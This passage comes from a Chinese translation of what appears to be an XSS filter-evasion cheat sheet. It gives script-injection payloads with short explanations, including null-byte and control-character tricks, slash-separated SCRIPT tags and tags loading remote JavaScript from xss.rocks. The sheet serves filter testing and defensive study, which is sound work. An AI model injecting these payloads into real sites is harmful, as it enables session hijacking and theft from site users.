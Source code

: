 ```sh
perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out
```

#### 示例 3：图像中 JavaScript 之前的空格和元字符

如果过滤器的模式匹配没有考虑 `javascript:` 一词中的空格（这是正确的，因为这不会渲染），但错误地假设引号和 `javascript:` 关键字之间不能有空格，这将很有用。实际情况是，你可以使用十进制 1-32 的任何字符：

```html
<a href=" &#14;  javascript:alert('XSS');">点击我</a>
```

#### 示例 4：非字母非数字 XSS

Firefox HTML 解析器假定 HTML 关键字后的非字母非数字字符无效，因此将其视为空白或 HTML 标签后的无效标记。问题是某些 XSS 过滤器假定它们正在寻找的标签被空白分隔。例如 `\<SCRIPT\\s` != `\<SCRIPT/XSS\\s`：

```html
<SCRIPT/XSS SRC="http://xss.rocks/xss.js"></SCRIPT>
```

基于上面的相同思路，但进行了扩展，使用 Rsnake 的模糊器。Gecko 渲染引擎允许在事件处理程序和等号之间使用除字母、数字和封装字符（如引号、尖括号等）之外的任何字符，使得绕过跨站点脚本块更加容易。注意，这也适用于重音符，如下所示：

```html
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
```

Yair Amit 指出，Trident（IE）和 Gecko（Firefox）渲染引擎之间存在略微不同的行为，允许在标签和参数之间仅使用斜杠且不带空格。如果系统不允许空格，这可能在攻击中很有用：

```html
<SCRIPT/SRC="http://xss.rocks/xss.js"></SCRIPT>
```

### 额外的开放括号

这个 XSS 向量可以击败某些检测引擎，这些引擎通过检查开放和闭合尖括号的匹配对，然后比较内部标签来工作，而不是使用更高效的算法，如 [Boyer-Moore](https://en.wikipedia.org/wiki/Boyer%E2%80%93Moore_string-search_algorithm)，后者会查找整个字符串匹配的开放尖括号和关联标签（当然是在去混淆后）。双斜杠注释掉结尾的多余括号，以抑制 JavaScript 错误：

```html
<<SCRIPT>alert("XSS");//\<</SCRIPT>
```

（由 Franz Sedlmaier 提交）

### 没有闭合脚本标签

对于 Firefox，你实际上不需要这个 XSS 向量的 `\></SCRIPT>` 部分，因为 Firefox 假定关闭 HTML 标签是安全的，并为你添加闭合标签。与下一个攻击不同，这种方法不会影响 Firefox，并且不需要其下方的任何额外 HTML。如果需要，可以添加引号，但通常不需要：

```html
<SCRIPT SRC=http://xss.rocks/xss.js?< B >
```

### 脚本标签中的协议解析

这个特殊的变体部分基于 Ozh 的协议解析绕过，并且在兼容模式下的 IE 和 Edge 中有效。然而，这在空间有限的情况下特别有用，当然，你的域名越短越好。`.j` 是有效的，无论编码类型如何，因为浏览器在 SCRIPT 标签的上下文中知道它：
